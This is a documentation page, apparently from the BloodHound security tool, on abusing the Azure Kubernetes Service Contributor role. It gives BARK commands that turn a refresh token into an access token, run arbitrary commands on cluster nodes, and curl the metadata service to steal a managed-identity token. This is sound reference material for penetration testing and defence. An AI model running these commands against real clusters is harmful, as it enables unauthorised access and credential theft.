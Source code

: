 ---
title: AZAKSContributor
description: "The Azure Kubernetes Service Contributor role grants full control of the target Azure Kubernetes Service Managed Cluster."
---

<img noZoom src="/assets/enterprise-AND-community-edition-pill-tag.svg"/> 


 This includes the ability to remotely fetch administrator credentials for the cluster as well as the ability to execute arbitrary commands on compute nodes associated with the AKS Managed Cluster.

## Abuse Info

You can use BARK’s Invoke-AzureRMAKSRunCommand function to execute commands on compute nodes associated with the target AKS Managed Cluster.

This function requires you to supply an Azure Resource Manager scoped JWT associated with the principal that has the privilege to execute commands on the cluster. There are several ways to acquire a JWT. For example, you may use BARK’s Get-ARMTokenWithRefreshToken to acquire an Azure RM-scoped JWT by supplying a refresh token:

```bash
$ARMToken = Get-ARMTokenWithRefreshToken `
    -RefreshToken "0.ARwA6WgJJ9X2qk..." `
    -TenantID "contoso.onmicrosoft.com"
```

Now you can use BARK’s Invoke-AzureRMAKSRunCommand function to execute a command against the target AKS Managed Cluster. For example, to run a simple “whoami” command:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command "whoami"
```
If the AKS Cluster or its associated Virtual Machine Scale Sets have managed identity assignments, you can use BARK’s Invoke-AzureRMAKSRunCommand function to retrieve a JWT for the managed identity Service Principal like this:

```bash
Invoke-AzureRMAKSRunCommand `
    -Token $ARMToken `
    -TargetAKSId "/subscriptions/f1816681-4df5-4a31-acfa-922401687008/resourcegroups/AKS_ResourceGroup/providers/Microsoft.ContainerService/managedClusters/mykubernetescluster" `
    -Command \\'curl -i -H "Metadata: true" "http://169.254.169.254/metadata/identity/oauth2/token?resource=https://graph.microsoft.com/&api-version=2019-08-01"\\'
```
If successful, the output will include a JWT for the managed identity service principal.

## Opsec Considerations

This will depend on which particular abuse you perform, but in general Azure will create a log event for each abuse.

## References

* [https://github.com/BloodHoundAD/BARK](https://github.com/BloodHoundAD/BARK)
* [https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/](https://www.netspi.com/blog/technical/cloud-penetration-testing/extract-credentials-from-azure-kubernetes-service/)
